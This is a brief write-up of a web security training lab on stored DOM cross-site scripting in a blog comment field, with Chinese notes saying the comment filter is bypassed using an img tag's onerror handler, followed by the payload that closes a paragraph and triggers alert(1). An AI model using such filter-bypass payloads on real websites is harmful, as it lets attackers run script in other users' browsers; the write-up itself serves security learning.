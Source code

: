 # Lab: Stored DOM XSS

This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the alert() function.

## Cross Site Scripting
* 題目說 comment 有問題，他有做一點過濾，不過用 img 標籤加上 onerror 的寫法就可以過了
```
payload = </p><img src=# onerror=alert(1)>
```